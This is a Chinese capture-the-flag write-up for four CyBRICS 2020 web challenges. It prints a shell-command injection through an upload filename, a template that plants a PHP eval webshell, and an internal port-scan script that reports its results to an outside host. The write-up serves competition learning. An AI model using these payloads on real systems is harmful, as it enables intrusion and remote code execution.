 #  CyBRICS  2020



## Hunt

用burp修改返回包

flag:`cybrics{Th0se_c4p7ch4s_c4n_hunter2_my_hunter2ing_hunter2}`



## Gif2png

源代码已上传

```
if not bool(re.match("^[a-zA-Z0-9_\-. '\"\=\$\(\)\|]*$", file.filename)):
    exit()
...
def allowed_file(filename):
    return '.' in filename and filename.rsplit('.', 1)[1].lower() in ALLOWED_EXTENSIONS
allowed_file(file.filename)
...
command = subprocess.Popen(f"ffmpeg -i 'uploads/{file.filename}' \"uploads/{uid}/%03d.png\"", shell=True)
```

`filename="'$(sleep 5)'a.gif"`来执行命令

cybrics{imagesaresocoolicandrawonthem}



## woc

![](https://raw.githubusercontent.com/Explorersss/photo/master/20200726002857.png)

calc.php


```php=
if (!preg_match('#(?=^([ %()*+\-./]+|\d+|M_PI|M_E|log|rand|sqrt|a?(sin|cos|tan)h?)+$)^([^()]*|([^()]*\((?>[^()]+|(?4))*\)[^()]*)*)$#s', $field)) {
        $value = "BAD";
    }else{
    $value = eval("return $field;");
}
```


```
9999999999999999999:1.0E+25
1/0:INF
0/0:NAN
log(0):-INF
```


newtemplate.php

```php=
        if (strpos($html, '<?') !== false) {
            $error = "Bad chars";
            break;
        }
        ...
        file_put_contents("calcs/$userid/templates/$uuid.html", $html);
```

calc.php
```php=
file_put_contents("calcs/$userid/$calc.php", "<script>var preloadValue = <?=json_encode((string)($field))?>;</script>\n" . file_get_contents("inc/calclib.html") . file_get_contents("calcs/$userid/templates/$template.html"));
```

html转php处，利用`/*`破坏结构，`file_get_contents("calcs/$userid/templates/$template.html"))`处`*/`收尾，于是绕过成功


新建template:
```
*/)).eval($_POST[1])?>
$requiredBlocks = [
            'id="back"',
            'id="field" name="field"',
            'id="digit0"',
            'id="digit1"',
            'id="digit2"',
            'id="digit3"',
            'id="digit4"',
            'id="digit5"',
            'id="digit6"',
            'id="digit7"',
            'id="digit8"',
            'id="digit9"',
            'id="plus"',
            'id="equals"',
        ];
```

向calc post:
`field=1/*&share=1`



flag:cybrics{5aMe_7h1ng_W3_d0_3Ve5y_n16ht_P1nKY.Try_2_t4k3_0vEr_t3h_w0RLd}

##  Developer's Laptop 

看题目样子是xss题?SSRF?


浏览器信息：HeadlessChrome/79.0.3945.79 

填写脚本：
```javascript=
a=document.getElementsByClassName("form-control");a[1].value="WQLSaidXUtQAfD6ptJc7Yg";a[0].value="http://ccreater.top:60000";
```

返回包
```
HEAD / HTTP/1.1
Host: ccreater.top:60000
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/79.0.3945.79 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Access-Control-Request-Method: POST
Origin: prod.free-design-feedback-cybrics2020.ctf.su
Referer: http://prod.free-design-feedback-cybrics2020.ctf.su

```


等等开发人员的电脑？肯定一堆服务，内网扫描！

http服务扫描：
```htmlmixed=
<html>
<head>
<meta http-equiv="Content-Type" content="text/html; charset=utf-8" />
</head>
<body>
    
<script>
var from = 1;
var complete = true;
var clear = false;
function check(text){
    var linkEl = document.head.querySelector('link[href*="'+text+'"');
    var cssLoaded = Boolean(linkEl.sheet);
    linkEl.addEventListener('load', function () {
        console.log(text)
        // log
		fetch("http://ccreater.top:60010/log.php?log="+text)
			.then(r=>r.text())
			.then(d=>{console.log("log success")})
		// log end
    });
}
function clearstyle(clear_from ,clear_to){
	clear = true;
	console.log("clear task start");
	while(clear_to<=clear_from){
            document.head.querySelector('link[href$=":'+clear_to+'"').remove();
			clear_to++;
    }
	clear = false;
	console.log("clear task end");
}
function make(text){
    head = document.getElementsByTagName('head')[0];
	var port = text;
    var url = "http://127.0.0.1:"+port,
    link = document.createElement('link');
    link.rel = "stylesheet";
    link.href = url;
    head.appendChild(link);
    check(text);
}
async function scan(){
	var to = from + 80 > 65535 ? 65535 : from + 80;
	for(var i=from;i<to;i++){
		make(String(i));
	}
	from +=80;
	setTimeout(()=>{clearstyle(from,to);},5000);
};

async function listener (){
	console.log("listener works,from:"+from+",complete:"+complete);
	if(from < 65535){
		setTimeout(listener,5000);
		if(complete && !clear){
			console.log("new task!");
			scan()
				.then(()=>{complete = true;})
			complete = false;
		}
	}
	
}
listener()
</script>
</body>
</html>

```



虽然我猜到了有内网服务但是到最后我还是没有扫到。。

脚本在本地是可以跑的，但是服务器上就不行，可能是因为有时间限制吧，遗憾。
